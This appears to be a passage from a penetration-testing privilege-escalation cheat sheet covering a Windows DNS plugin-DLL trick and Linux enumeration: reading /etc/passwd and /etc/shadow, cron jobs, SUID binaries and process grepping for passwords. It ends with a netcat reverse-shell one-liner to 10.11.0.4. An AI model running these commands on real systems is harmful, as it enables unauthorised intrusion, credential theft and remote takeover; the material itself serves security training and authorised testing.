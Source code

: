 Weeeeeeeeeeeeeeeeeeeeeeeeeeeeird DNS thing if you are a DNS Admin:
`dnscmd.exe /config /serverlevelplugindll \\path\to\dll`

#### Windows XP
Sohvaxus' [Windows XP SP0/SP1 Privilege Escalation to System](https://sohvaxus.github.io/content/winxp-sp1-privesc.html)
### Linux PrivEsc
**RUN THIS FIRST:**
``` python
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
LINPEAS
```
- you can use the `id` command to get a better idea of user context.

To enum users on linux, just `cat /etc/passwd`.  Try `/etc/shadow` too.  Probably won't work, but give it a go.

At some point you may need to rely on kernel exploits, and knowing the machine's OS is useful here:
- `uname -a`
- `cat /etc/issue`
- `cat /etc/*-release`

Get a list of processes running on the system:
- `ps axu`

- `watch -n 1 "ps -aux | grep pass"`

Check Scheduled Tasks:

- `grep "CRON" /var/log/syslog`
- `ls -lah /etc/cron*` 
- `cat /etc/crontab` **(THIS IS A BIG ONE, MOST STUFF HERE WILL RUN AS ROOT)**

List installed Programs:
- `dpkg -l`
- `/var/`, `/opt/`, `/usr/local/src` and `/usr/src/` are good directories to dig through as well

Find folders you can write to:
- `find / -writable -type d 2>/dev/null`

List Kernel modules:
- `lsmod`
- `/sbin/modinfo [MODULENAME]`

Check for SUID binaries:
- `find / -perm -u=s -type f 2>/dev/null
- `/usr/sbin/getcap -r / 2>/dev/null`
- [GTFOBins](https://gtfobins.github.io/) is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.

**LINUX PRIVESC TECHNIQUES**
Edit something you have permissions for that is being executed in crontab, and wait.

REVERSE SHELL ONE LINER
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f`
